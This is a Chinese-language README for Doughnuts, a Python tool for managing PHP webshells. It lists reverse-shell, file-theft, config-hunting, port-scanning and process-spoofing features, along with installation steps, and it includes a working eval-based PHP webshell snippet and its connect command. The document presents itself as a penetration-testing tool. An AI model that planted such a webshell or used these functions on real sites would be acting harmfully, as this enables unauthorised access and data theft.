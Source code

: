 # Doughnuts

*一个基于Python3.6+的PHPwebshell管理器*
![YPIoee.png](https://s1.ax1x.com/2020/05/05/YPIoee.png)
![YPIjQf.png](https://s1.ax1x.com/2020/05/05/YPIjQf.png)

## 特征

- 支持连接,记录,管理webshell,方便下一次连接
- 基于eval的连接,支持GET,POST,COOKIE,HEADER四种连接方式
- 支持编码payload(已内置base64,str_rot13,hex三种编码,可以通过添加encode文件夹中的py文件进行扩展),以实现连接带有解码的webshell
- 核心功能
    - 获取网站,系统信息
    - 获取一个临时的非完全交互式shell和webshell
    - 以php/python的方式反弹shell(windows/unix通用)
    - (仅限双方均为*unix)获取完全交互式shell
    - 读/写/上传/下载/删除/搜索文件
    - 网站目录打包下载
    - 寻找可写的PHP文件(以树状结构显示)
    - 寻找配置文件(文件名中包含cfg/config/db/database) 也可以通过修改代码来支持寻找更多的文件(以树状结构显示)
    - 输出disbale_functions
    - 端口扫描
    - 内网网页文本式浏览代理，可自定义请求方法和数据
- 易于扩展

## 依赖

- Python3.6+
- Python-requests
- Python-colorama

## 安装方法

```
安装PYTHON 3.6+
git clone https://github.com/WAY29/Doughnuts.git
进入Doughnuts目录下
pip install -r requirements.txt 或 pip install requests colorma
python doughnuts.py
enjoy it!
```

## 使用例子

假如要连接以下的webshell:

```php
<?php
error_reporting(0);
eval(str_rot13(base64_decode($_REQUEST['2333'])));
?>
```

那么只需要运行Doughnuts.py,并输入以下命令:

```
connect http://localhost/test.php GET 2333 rot13 base64
```

即可成功连接至webshell

## 参考

灵感源自https://github.com/WangYihang/Webshell-Sniper


## 更新

### V1.9
- 添加search命令,使用glob函数递归搜索文件.命令格式为search {pattern}

### V1.8
- 优化连接时发送的请求,从发送三次变成发送2次
- 修改pdf命令的逻辑,在连接时获取
- 优化reshell命令,命令格式为reshell {lhost} {port} {type=[python|script|upload]{1|2|3},default = 0 (Python:1 Not Python:3)} {(Only for Mode 2) fakename=/usr/lib/systemd} 三种模式分别为:1->使用python pty模块升级, 2->使用linux自带的script命令升级, 3->上传一个反弹pty的二进制文件并运行(可以伪造进程名,若无法反弹请进入libs目录拿取源码,使用目标相同发行版进行编译后覆盖原reverse_server_light文件)


### V1.7

- 修改reshell命令,修复bug,优化体验,可以随意伪装进程名
- 在libs目录下放置reverse_server_light的源码,方便编译与修改(origin:https://github.com/QAX-A-Team/ptyshell)
- 重写portscan,支持三种扫描方式


### V1.6

- 修复了若干bug
- 添加了reshell命令,监听本地端口,并让目标反弹一个完整交互式的shell(仅限双方系统都是linux且可能存在一定的问题)


### V1.5

- modify指令现在会调用notepad/vim进行编辑
- write指令现在会调用notepad/vim进行编辑
- dump命令现在使用原始php代码进行压缩,可以压缩子目录
- 优化了发送payload的间隔符

### V1.4

- 添加指令:修改文件
- 关闭debug模式
- 修复了某些情况下fwpf,fc指令无法使用的情况,现在发送数据时会关闭错误提示


## 免责声明

本项目仅供网站管理人员与渗透测试人员学习与交流,任何使用本项目进行的一切未授权攻击行为与本人无关.

